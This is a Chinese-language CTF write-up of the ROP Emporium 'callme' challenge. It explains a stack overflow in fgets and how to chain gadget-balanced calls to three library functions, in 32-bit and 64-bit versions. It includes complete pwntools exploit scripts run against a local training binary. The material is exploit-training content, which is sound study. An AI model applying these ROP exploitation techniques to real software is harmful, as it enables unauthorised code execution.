 ```yaml
---
title: ROP Emporium の callme
date: 2020-05-29 14:37:20
categories: 
- WriteUPs
- ROP Emporium
tags: 
- PWN
- ROP
- Stack
---
```

## Introduction

[ROP Emporium](https://ropemporium.com)训练2：callme的解析。

<!-- more -->

## callme32

### Step 1

程序正常运行截图：

![](/img/callme/callme1.png)

checksec：32位程序，依然只开启了DEP保护

![](/img/callme/callme2.png)

### Step 2

还是一样的把程序丢到hopper中分析，首先是callme32主程序。

可以找到有pwnme函数中fgets函数依然存在溢出漏洞，但是程序中找不到system函数，多了3个callme函数。

![](/img/callme/callme3.png)

具体看了一下这三个callme函数发现都是去调用libc.so中的对应函数，所以我们去看下题目给的libcallme32.so文件中对应的3个函数具体内容：

![callme_one](/img/callme/callme4.png)

![callme_two](/img/callme/callme5.png)

![callme_three](/img/callme/callme6.png)

结合题目给的提示：

![](/img/callme/callme7.png)

所以我们需要控制程序依次调用callme_one，callme_two，callme_three三个函数，且每次传入的参数均为1，2，3。

### Step 3

确定了思路我们就开始按照思路一步一步往下走。

首先覆盖fegts函数返回地址为callme_one函数地址，并给出3个运行参数1，2，3。为了实现再次控制栈，我们需要恢复栈实现堆栈平衡。

我们输入了3个参数，所以我们需要3个pop指令+ret指令，找一下程序中这样的段：

![](/img/callme/callme8.png)

0x080488a9这个地址的指令是满足条件的，所以我们就可以覆盖fgets函数返回地址调用callme_one函数，然后覆盖调用callme_one函数后的返回地址为我们找到的pop+pop+pop+ret指令保持堆栈平衡。

然后控制ret返回地址为callme_two函数入口，再次调用pop*3+ret的结构恢复堆栈平衡，然后控制ret跳转到callme_three函数入口......

就这样玩着套娃游戏就可以解决这道题。

### Appendix

直接贴上EXP脚本：

```Python
* from pwn import *
* 
* sh = process('./callme32')
* elf = ELF('./callme32')
* 
* one_addr = elf.symbols['callme_one']
* two_addr = elf.symbols['callme_two']
* thr_addr = elf.symbols['callme_three']
* 
* rop_addr = 0x080488a9
* 
* payload_start = 'a' * (0x28 + 0x4)
* payload_one = p32(one_addr) + p32(rop_addr) + p32(1) + p32(2) + p32(3)
* payload_two = p32(two_addr) + p32(rop_addr) + p32(1) + p32(2) + p32(3)
* payload_thr = p32(thr_addr) + p32(0xdeedbeef) + p32(1) + p32(2) + p32(3)
* 
* payload = payload_start + payload_one + payload_two + payload_thr
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

脚本运行成功截图：

![](/img/callme/callme9.png)

## callme

### Step 1

程序运行以及checksec和32位程序一模一样，只是换成了64位程序，我们需要考虑下传参方式带来的问题。

### Step 2

在运行64位程序的时候程序会从相应寄存器中读取参数，所以调用函数之前需要先将数据传到寄存器中去。本题中需要传入3个参数，所以我们需要找到一个这样的指令结构：

```Code
* pop rdi
* pop rsi
* pop rdx
* ret
```

通过ROPgadget找到0x401ab0的位置有满足条件的结构：

![](/img/callme/callme10.png)

于是每次调用函数的套娃型payload的结构就变成了：payload = rop_addr + 参数1 + 参数2 + 参数3 + func_addr

### Step 3

直接给出EXP脚本：

```Python
* from pwn import *
* 
* sh = process('./callme')
* elf = ELF('./callme')
* 
* one_addr = elf.symbols['callme_one']
* two_addr = elf.symbols['callme_two']
* thr_addr = elf.symbols['callme_three']
* 
* rop_addr = 0x401ab0
* 
* payload_start = 'a' * (0x20 + 0x8)
* payload_one = p64(rop_addr) + p64(1) + p64(2) + p64(3) + p64(one_addr)
* payload_two = p64(rop_addr) + p64(1) + p64(2) + p64(3) + p64(two_addr)
* payload_thr = p64(rop_addr) + p64(1) + p64(2) + p64(3) + p64(thr_addr)
* 
* payload = payload_start + payload_one + payload_two + payload_thr
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

脚本运行成功截图：

![](/img/callme/callme11.png)